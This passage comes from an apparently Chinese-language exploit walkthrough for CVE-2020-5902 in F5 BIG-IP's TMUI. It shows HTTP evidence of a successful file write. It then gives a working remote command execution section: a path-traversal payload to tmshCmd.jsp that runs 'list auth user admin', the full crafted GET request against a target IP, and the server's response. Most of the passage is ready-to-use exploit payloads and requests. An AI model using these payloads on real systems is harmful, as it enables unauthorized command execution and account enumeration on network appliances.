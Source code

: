 > Response

```
HTTP/1.1 200 OK
Date: Fri, 10 Jul 2020 15:57:50 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=16070400; includeSubDomains
Content-Type: text/html;charset=ISO-8859-1
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
Content-Length: 32
Connection: close


{"output":"CVE-2020-5902\n"}
```

文件上传成功,截图如下

![13](13.png)

###　命令执行（RCE）

> Payload

```http
/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

`list auth user`  查看所有用户

`list auth user admin`  查看管理员账户

 > Request

```http
GET /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin HTTP/1.1
Host: 192.168.1.245
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
```

> Response

```http
HTTP/1.1 200 OK
Date: Fri, 10 Jul 2020 15:47:16 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=16070400; includeSubDomains
Set-Cookie: JSESSIONID=238233448C2CEE035A5902915FF0D73B; Path=/tmui; Secure; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
Content-Length: 341
Connection: close

```